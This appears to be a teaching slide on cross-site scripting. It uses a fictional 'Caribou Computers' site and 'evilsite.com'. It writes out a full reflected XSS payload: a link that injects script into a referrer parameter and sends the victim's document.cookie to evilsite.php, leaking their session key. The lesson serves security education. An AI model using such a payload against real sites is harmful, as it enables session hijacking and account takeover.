

# Evilsite.com
Replace the link in evilsite.php with:
<a href="caribou_computers.php?referrer=Evilsite<script>document.write('<a href=');document.write(String.fromCharCode(34));document.write('evilsite.php?comment=');document.write(document.cookie);document.write(String.fromCharCode(34));document.write('>');document.write('Click here to go back</a>');</script>">Go to Carabou Computers</a>
Now when someone (who is logged into Carabou Computers) clicks on this link. Caribou’s site will display but it will have a “click here to logout” link.  Anyone clicking on that link will have their session key posted on evilsite.com.
 It’s worth taking the time to figure out how each part of this works. But that’s the basics of an XSS attack.